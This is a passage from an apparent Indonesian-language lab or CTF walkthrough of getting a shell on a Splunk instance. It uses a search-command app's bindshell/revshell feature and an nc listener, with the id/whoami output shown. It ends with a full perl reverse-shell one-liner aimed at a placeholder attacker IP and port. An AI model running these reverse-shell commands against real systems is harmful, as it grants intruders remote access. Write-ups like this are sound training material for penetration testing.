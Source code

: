 kenapa bisa seperti itu? ini adalah format yang sudah diberikan di githubnya.

>Bind Shell
>'| bindshell SHELLTYPE PORTNUMBER'
>
>SHELLTYPE - Specify std or msf (std = Standard Shell|msf = Meterpreter Shell)
>
>PORTNUMBER - Specify the port you want the bind shell to listen on. If you do not specify a port number it defaults to 8888
>
>Reverse Shell
>'| revshell SHELLTYPE ATTACKERIP ATTACKERPORT'
>
>SHELLTYPE - Specify std or msf (std = Standard Shell|msf = Meterpreter Shell)
>
>ATTACKERIP - Specify the IP that you want to shell to be sent back to.
>
>ATTACKERPORT - Specify the port you want the shell to be sent back to.

kemudian kita listen pakai nc -nvlp 1922

```bash
nc -nvlp 1922
```

kemudian baru kita klik `Search` pada halaman Splunk tersebut, maka kita akan mendapatkan shell seperti berikut:

```bash
listening on [any] 1922 ...
connect to [192.168.56.105] from (UNKNOWN) [192.168.56.110] 54170
```

kemudian aku coba untuk `id` dan `whoami` untuk memastikan usernya.

```bash
id
uid=1001(splunk) gid=1001(splunk) groups=1001(splunk)                                                               
whoami
splunk
```

pertama kita coba untuk memunculkan tty dulu

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

ternyata tidak muncul apa-apa, mungkin sekarang coba pake perl

```perl
perl -e 'use Socket;$i="<ATTACKER IP>";$p=<ATTACKER PORT>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

disini aku menggunakan IP yang sama seperti sebelumnya, namun menggunakan port `4242` saja.

